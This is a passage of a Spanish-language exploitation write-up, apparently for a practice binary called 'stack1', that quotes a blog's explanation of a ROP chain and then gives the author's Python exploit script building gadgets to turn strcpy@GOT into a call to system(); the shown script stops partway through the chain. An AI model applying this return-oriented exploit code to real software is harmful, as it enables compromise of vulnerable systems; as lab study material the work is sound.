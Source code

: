 Copio y pego del estupendo blog de referencia para este ejercicio donde está explicado mucho mejor que si lo intentara explicar yo:

"El gadget (1) lo usaremos para dar valor a los registros EBX y EDI que serán usados por el (2). Con el (2) haremos un intercambio de los valores de EAX y EDI, por lo que EAX obtendrá el valor de EDI (que controlamos). Luego, con el (2) sumaremos el valor de EAX al almacenado en [ebx+0x5d5b04c4]. Como también tenemos el control de EBX, utilizaremos este gadget para sumar el valor de EAX en donde queramos, previamente restando 0x5d5b04c4 a la dirección donde se va a escribir. Con el (3) restableceremos de nuevo el valor de EBX. Con el (4) leeremos un valor de [ebx-0xb8a0008] y se lo sumaremos a EAX. Y por ultimo, con el (5) realizaremos un salto a la dirección que apunta EAX.
¡Menudo jaleo!
La idea es utilizar el gadget (2) para escribir el offset entre system y strcpy en algún sitio con permisos de escritura, de forma que el registro EAX se quede con dicho offset. Luego, con el (4) sumar al offset que tenemos en EAX la dirección de strcpy obtenida de la GOT, teniendo en EAX un puntero a system. Por ultimo, con el (5), llamar a la función calculada."


Este sería mi script final haciendo los ajustes necesarios:

```python
#!/usr/bin/python

from struct import pack
junk = "A" * 64 + "dcba" + "A" * 12  # 80 bytes

## ROP gadgets ##
gadget1 = pack('<I', 0x8048545) # (1) pop ebx ; pop esi ; pop edi ; pop ebp ;;
gadget2 = pack('<I', 0x804842b) # (2) xchg edi eax ; add al 0x8 ; add [ebx+0x5d5b04c4] eax ;;
gadget3 = pack('<I', 0x8048432) # (3) pop ebx ; pop ebp ;;
gadget4 = pack('<I', 0x804856e) # (4) add eax [ebx-0xb8a0008] ; add esp 0x4 ; pop ebx ; pop ebp ;;
gadget5 = pack('<I', 0x804845f) # (5) call eax ; leave ;;

# OPERACIONES CONDICIONADAS POR LOS GADGETS

padding = 0xdeadbeef
offset = 0xfffb3840 - 0x8			# El offset hay que calcularlo en gdb, no funciona lo anterior
data = (0x08049720-0x5d5b04c4) & 0xFFFFFFFF 	# 0xaaa9925c
strcpy_got = (0x08049710+0xb8a0008)            	# 0x138E9718 strcpy@GOT + 0xb8a0008 for the gadget (4)
gnu_string = 0x8048154                          # "GNU\x00" from note.gnu.build-id

## PAYLOAD ##

# Primero tenemos que encontra una manera de guardar el offset en una posicion de memoria que tenga permisos de escritura

rop = gadget1              	# (1) pop ebx ; pop esi ; pop edi ; pop ebp ;;
rop += pack('<I', data)		# direccion donde se puede guardar datos readelf -S stack1 | grep "\.data" (0x08049720) --> pop ebx | A esta direccion 0x08049720 hay que restarle el valor de 0x5d5b04c4, ya que luego vamos a usar la instruccion "add [ebx+0x5d5b04c4] eax" en el gadget2. Valor=(0x08049720-0x5d5b04c4) & 0xFFFFFFFF = 0xaaa9925c
rop += pack('<I', padding)	# otro valor cualquiera --> pop esi
rop += pack('<I', offset)	# valor del offset (&system-&strcpy)(0xfffc55b0) --> pop edi | A este valor hay que restarle 0x8 condicionado por la instruccion "add al 0x8" del gadget2. Valor = 0xfffc55b0 - 0x8 = 0xfffc55a8
rop += pack('<I', padding)	# otro valor cualquiera --> pop ebp
rop += gadget2			# (2) xchg edi eax ; add al 0x8 ; add [ebx+0x5d5b04c4] eax ;;

# Ahora hay que poner la direccion de strcpy en un registro, para luego sumarle el offset y llegar a system ;-)

rop += gadget3                 	# (3) pop ebx ; pop ebp ;;
rop += pack('<I', strcpy_got)   # direccion de strcpy (0xb7e81580) | Hay que sumarle 0xb8a0008 condicionado por la instruccion "add eax [ebx-0xb8a0008]" del gadget4. Valor= 0xb7e81580 + 0xb8a0008 = 0xC3721588
rop += pack('<I', padding)		# otro valor cualquiera --> pop ebp
```